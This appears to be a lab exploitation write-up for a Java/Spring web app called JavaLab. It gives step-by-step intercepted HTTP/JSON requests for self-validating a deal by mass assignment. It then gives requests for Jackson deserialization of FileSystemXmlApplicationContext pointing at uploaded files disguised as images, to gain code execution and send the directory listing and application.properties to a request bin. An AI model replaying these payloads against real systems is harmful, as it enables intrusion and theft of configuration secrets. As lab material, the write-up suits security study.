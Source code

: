 # JAVALAB EXPLOITATION

## PART 1 (AUTO VALIDATE A DEAL)

### Step 1

Post a deal and intercept the request

```HTTP
------WebKitFormBoundaryGTkAu8msA7WAW6bE
Content-Disposition: form-data; name="infos"; filename="blob"
Content-Type: application/json

{"description":"aa","link":"aa"}
------WebKitFormBoundaryGTkAu8msA7WAW6bE--
```

### Step 2

Change the JSON and add the field "validated" with the name of the file in Base64

```HTTP
------WebKitFormBoundaryGTkAu8msA7WAW6bE
Content-Disposition: form-data; name="infos"; filename="blob"
Content-Type: application/json

{"description":"aa","link":"aa","validated":"fileNameInBase64"}
------WebKitFormBoundaryGTkAu8msA7WAW6bE--
```

### Step 3

Send the request, and ...... TDAM!


## PART 2 (Get application.properties or RCE)

### STEP 1

Create a new deal and upload "collect_arbo.jpg" to send the arbo in /tmp/test.txt
Use the Contact form, intercept the request en change details content

```JSON
{"email":"a","content":"a","details":{"@class":"com.laba4s.Private","phone":"a"}}
```

by "["org.springframework.context.support.FileSystemXmlApplicationContext","opt/app/tmp/collect_arbo.jpg"]" to execute the content of collect-arbo

```JSON
{"email":"a","content":"a","details":["org.springframework.context.support.FileSystemXmlApplicationContext","opt/app/tmp/collect_arbo.jpg"]}
```

### STEP 2

Create a new deal and upload **"send_arbo_to_request_bin.jpg"** to send the arbo to a request bin
Use the Contact form, intercept the request en change **details** content

```JSON
{"email":"a","content":"a","details":{"@class":"com.laba4s.Private","phone":"a"}}
```

by "["org.springframework.context.support.FileSystemXmlApplicationContext","opt/app/tmp/send_arbo_to_request_bin.jpg"]" to execute the content of send_arbo_to_request_bin.jpg

```JSON
{"email":"a","content":"a","details":["org.springframework.context.support.FileSystemXmlApplicationContext","opt/app/tmp/send_arbo_to_request_bin.jpg"]}
```

### STEP 3

Create a new deal and upload **"send_config_file_to_request_bin.jpg"** to send the arbo to a request bin
Use the Contact form, intercept the request en change **details** content

```JSON
{"email":"a","content":"a","details":{"@class":"com.laba4s.Private","phone":"a"}}
```

by "["org.springframework.context.support.FileSystemXmlApplicationContext","opt/app/tmp/send_config_file_to_request_bin.jpg"]" to execute the content of send_arbo_to_request_bin.jpg

```JSON
{"email":"a","content":"a","details":["org.springframework.context.support.FileSystemXmlApplicationContext","opt/app/tmp/send_config_file_to_request_bin.jpg"]}
```


